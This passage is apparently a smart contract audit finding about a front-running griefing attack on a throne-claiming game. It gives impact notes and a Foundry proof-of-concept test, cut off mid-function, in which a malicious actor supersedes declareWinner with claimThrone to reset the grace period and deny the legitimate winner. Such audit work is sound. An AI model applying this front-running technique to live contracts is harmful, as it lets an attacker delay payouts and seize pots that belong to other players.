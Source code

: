 _Prerequisites_

- The fundamental `claimThrone()` logic error must be fixed for the contract to function
- Game must be in progress with an active currentKing
- Grace period must be near expiration

**Impact**

1. Legitimate winners can not claim victory when the grace period should have expired.
2. Forcing all players to wait additional grace periods, wasting time and gas.
3. If the attacker successfully prevents others from claiming during the new grace period, they can steal the entire accumulated pot
4. Repeated attacks can theoretically extend the game indefinitely

**Proof of Concepts**

1. Three players played to claim thone. 3rd player being the last one becomes the potential legitimate winner.
2. After passing of the grace period, some one tries to call the `declareWinner` function.
3. However, a malicious attack sees this transaction in the mempool and supersedes this with another `claimThrone` transaction.
4. Hence manipulating the grace period and forcing players to wait for additional grace period.

```js
function test_FrontRun_declareWinner_To_Cause_Grief() external {
        vm.prank(player1);
        game.claimThrone{value: INITIAL_CLAIM_FEE}();

        uint256 claimFee = game.claimFee();
        vm.prank(player2);
        game.claimThrone{value: claimFee}();

        claimFee = game.claimFee();
        vm.prank(player3);
        game.claimThrone{value: claimFee}();

        address currentKing = game.currentKing();
        assertEq(currentKing, player3);

        uint256 newTime = block.timestamp + game.getRemainingTime();

        vm.warp(newTime + 1);

        //declare winner
        // game.declareWinner();
        // uint256 winnerPendings = game.pendingWinnings(player3);
        // assertGt(winnerPendings, 0); //3.144e17

        //attacker supersedes this above transaction with claimThrone
        claimFee = game.claimFee();
        vm.prank(maliciousActor);
        game.claimThrone{value: claimFee}();
        currentKing = game.currentKing();
        assertEq(currentKing, maliciousActor);

        vm.expectRevert("Game: Grace period has not expired yet.");
        game.declareWinner();
        uint256 winnerPendings = game.pendingWinnings(player3);
        assertEq(winnerPendings, 0);

        //attacker is required for grace period to pass meanwhile there is a chance for others to claim throne, hence causing more delays

        newTime = block.timestamp + game.getRemainingTime();
        vm.warp(newTime + 1);

```